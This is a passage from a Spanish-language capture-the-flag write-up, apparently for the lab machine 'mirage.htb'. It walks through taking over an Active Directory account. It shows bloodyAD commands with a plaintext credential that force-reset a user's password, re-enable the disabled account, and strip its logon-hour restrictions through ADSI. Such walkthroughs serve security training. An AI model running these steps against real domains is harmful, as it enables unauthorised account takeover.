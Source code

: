 ```powershell
bloodyAD -k --host DC01.mirage.htb -d mirage.htb -u 'mark.bbond' -p '1day@atime' set password JAVIER.MMARSHALL 'P4ssw0rd!' #cambio de password!
```

logramos cambiar la password del usuario pero igual no podemos hacer uso de ella por lo que solicitamos informacion de la cuenta

```bash
bloodyAD --kerberos -u "mark.bbond" -p '1day@atime' -d "mirage.htb" --host "dc01.mirage.htb" get object "javier.mmarshall" --attr userAccountControl
```
```bash
distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```

la cuenta aparece como Desactivada, asi que la activamos (todo como el usuario mark.bbond)

```powershell
Enable-ADAccount -Identity javier.mmarshall
```

si consultamos nuevamente informacion veremos que esta activa

```powershell
Get-ADUser -Identity javier.mmarshall
```

<img width="1920" height="321" alt="image" src="https://github.com/user-attachments/assets/80a80735-ae12-4a1c-b714-5b37c3740e7c" />

Pero aun asi no es posible hacer uso de la cuenta ya que cuanto intentamos lanzar una shell con `RunasCs.exe` nos dice:

>>> [-] RunasCsException: LogonUser failed with error code: Your account has time restrictions that keep you from signing in right nowP

<img width="1920" height="173" alt="image" src="https://github.com/user-attachments/assets/4bc1414a-ba5a-4d48-9284-40f4777e6e8a" />

Esto quiere decir que la cuenta tiene una restriccion horaria, por lo que ahora debemos quitar estar restriccion para poder autenticarnos con ella!!!

### Eliminando restriccion horaria

```powershell
$user = [ADSI]"LDAP://CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb"
```

```powershell
$logonHours = [byte[]](0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF,0xFF)
```

```powershell
$user.Put("logonHours", $logonHours)
```

```powershell
$user.SetInfo()
```
